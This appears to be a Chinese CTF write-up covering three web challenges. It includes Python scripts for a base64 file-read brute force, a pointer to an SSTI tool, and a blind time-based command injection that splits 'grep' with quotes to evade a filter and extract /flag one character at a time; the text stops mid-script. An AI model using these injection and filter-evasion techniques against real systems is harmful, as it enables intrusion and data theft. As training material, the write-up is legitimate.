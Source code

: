 # 完美网站
	- 注意到地址中有base64编码的`tupian.png`，其中有隐写的字符串`ffffpq.php`
	- 注意到主页跳转时提示需要提供参数n, 提交n后有概率会读取参数img指定的图片
	- 写脚本爆`ffffpq.php`即可拿到flag
		- ```python
		  for _ in range(100):
		  
		      r = base_get(url, params = {
		          "n": 14,
		          "img": enc_dec.base64_encode("ffffpq.php")
		      }, acceptable_code=None, allow_redirects=False)
		      if len(r.text) == 30:
		          continue
		      if result := re.search(r"base64,(\S+)'/>", r.text):
		          print(result.group(1))
		      else:
		          print(r.text)
		      break
		  ```
- # It's Time
	- 直接用[Fenjing](https://github.com/marven11/fenjing)爆就行了
- # notrce
	- 使用`dir /flag && sleep 3`可以知道存在`/flag`文件
	- 使用`sort /flag |  gr'ep' -P 'flag{' && sleep 3`一个一个猜flag中的字符
	- 所以可以写个程序用正则爆flag
		- ```python
		  def test(regexp):
		      print(f"{regexp=}")
		      t = time.perf_counter()
		      r = requests.post(url, data = {
		          "c": f"sort /flag | gr'ep' -P '{regexp}' && sleep 1"
		      })
		      return time.perf_counter() - t > 1
		  
		  def char_type(known):
		      types = [
		          ("[A-Z]", ord("A"), ord("Z")),
		          ("[a-z]", ord("a"), ord("z")),
		          ("[0-9]", ord("0"), ord("9")),
		          ("_", ord("_"), ord("_")),
		          ("}", ord("}"), ord("}")),
		          ("{", ord("{"), ord("{")),
		      ]
		      for char_regexp, start, stop in types:
		          if test(known + char_regexp):
		              # print(f"char_type: {char_regexp=}")
		              return start, stop
		      return None, None
		  